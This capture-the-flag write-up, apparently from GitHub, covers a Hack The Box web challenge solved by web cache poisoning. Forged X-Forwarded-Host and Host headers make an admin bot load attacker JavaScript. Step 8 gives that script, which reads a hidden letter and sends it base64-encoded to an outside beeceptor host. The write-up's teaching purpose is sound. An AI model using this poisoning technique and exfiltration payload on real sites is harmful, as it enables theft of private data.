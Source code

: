 we have a site that you leave letters , and our flag is in on of this letters (letter 3 specfic) but it need an admin auth to see it
![Screenshot_84](https://github.com/kiro6/writeups/assets/57776872/372cfff9-ba16-4a15-9777-20847650d793)

project structre 
```
.
├── build-docker.sh
├── challenge
│   ├── index.js
│   ├── package.json
│   ├── routes
│   │   └── routes.js
│   ├── static
│   │   ├── background.png
│   │   ├── favicon.ico
│   │   ├── main.css
│   │   ├── main.js
│   │   ├── queen.svg
│   │   ├── sign-post.png
│   │   └── viewletter.js
│   ├── utils
│   │   ├── authorisation.js
│   │   ├── bot.js
│   │   └── database.js
│   └── views
│       ├── base.html
│       ├── index.html
│       ├── letter.html
│       └── viewletters.html
├── config
│   ├── cache.vcl
│   └── supervisord.conf
└── Dockerfile
```

i will mention the most important parts to solve the challenge 

## cache.vcl
in Varnish Configuration , the cache based on url and host header
```vcl
sub vcl_hash {
    hash_data(req.url);

    if (req.http.host) {
        hash_data(req.http.host);
    } else {
        hash_data(server.ip);
    }

    return (lookup);
}
```

## routs.js
in `/` and `/letters` cdn can be controlled by the user  
```js
router.get("/", (req, res) => {
    return res.render("index.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});

router.get("/letters", (req, res) => {
    return res.render("viewletters.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});
```

- when the submit func `visit` is called from `bot.js`
- `/submit` endpoint take json object contain message attribute
```
router.post("/submit", async (req, res) => {
    const { message } = req.body;

    if (message) {
        return db.insertMessage(message)
            .then(async inserted => {
                try {
                    botVisiting = true;
                    await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
                    botVisiting = false;
                }
                catch (e) {
                    console.log(e);
                    botVisiting = false;
                }
                res.status(201).send(response(inserted.lastID));
            })
            .catch(() => {
                res.status(500).send(response('Something went wrong!'));
            });
    }
    return res.status(401).send(response('Missing required parameters!'));
});
```



message endpint used to get other letters
```
router.get("/message/:id", async (req, res) => {
    try {
        const { id } = req.params;
        const { count } = await db.getMessageCount();
        const message = await db.getMessage(id);

        if (!message) return res.status(404).send({
            error: "Can't find this note!",
            count: count
        });

        if (message.hidden && !isAdmin(req))
            return res.status(401).send({
                error: "Sorry, this letter has been hidden by the easter bunny's helpers!",
                count: count
            });

        if (message.hidden) res.set("Cache-Control", "private, max-age=0, s-maxage=0 ,no-cache, no-store");

        return res.status(200).send({
            message: message.message,
            count: count,
        });
    } catch (error) {
        console.error(error);
        res.status(500).send({
            error: "Something went wrong!",
        });
    }
});
```
## bot.js

on every submit to a letter a bot is visiting the last submttied letter
```
const puppeteer = require('puppeteer');

const browser_options = {
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
        '--js-flags=--noexpose_wasm,--jitless'
    ],
};

const visit = async(url, authSecret) => {
    try {
        const browser = await puppeteer.launch(browser_options);
        let context = await browser.createIncognitoBrowserContext();
        let page = await context.newPage();

        await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });

        await page.goto(url, {
            waitUntil: 'networkidle2',
            timeout: 5000,
        });
        await page.waitForTimeout(3000);
        await browser.close();
    } catch (e) {
        console.log(e);
    }
};

module.exports = visit;
```

# Steps 
1) i found out that `X-Forwarded-Host` i accepted and reflected on `/` and `/letters`
2) we can cache posion the server , send him `X-Forwarded-Host: My_Server` 
3) set `Host: 127.0.0.1` to make the cache server map it to the server ip , so when the bot in `bot.js` visit it it will be served the poioned cache
4) use the url with id paramter potiong to the next letter will be added while poioning the cache , here used `/letters?id=15` because i will add it later
![Screenshot_80](https://github.com/kiro6/writeups/assets/57776872/eb5e22d1-5b40-407a-8649-78bfe904a7e7)

5) now every request for a url in the frontend use absloute path like `/viewletter.js` and `main.js` will be requsted as `http://My_Server/viewletter.js`

6) submit a new letter
 ![Screenshot_81](https://github.com/kiro6/writeups/assets/57776872/d39b231e-641d-491e-a1f9-2be6467135db)

7) now the bot visted `/letters?id=15` which we posioned later
8) the bot will request `/viewletter.js` which we serve in our server as
```js
fetch("http://127.0.0.1:80/message/3").then((r) => {
    return r.text();
}).then((data)=>{
fetch("https://htbsolver.free.beeceptor.com/"+btoa(data) )
})
```
9) the script executed in the bot and send use the result
![Screenshot_85](https://github.com/kiro6/writeups/assets/57776872/1554bc0c-30a0-461e-bd36-922a4bacfc60)
10) decode the base64 to get the flag
```
{"message":"Dear Easter Bunny, Santa's better than you! HTB{7h3_3as7er_bunny_h45_b33n_p0150n3d!}","count":15}
```
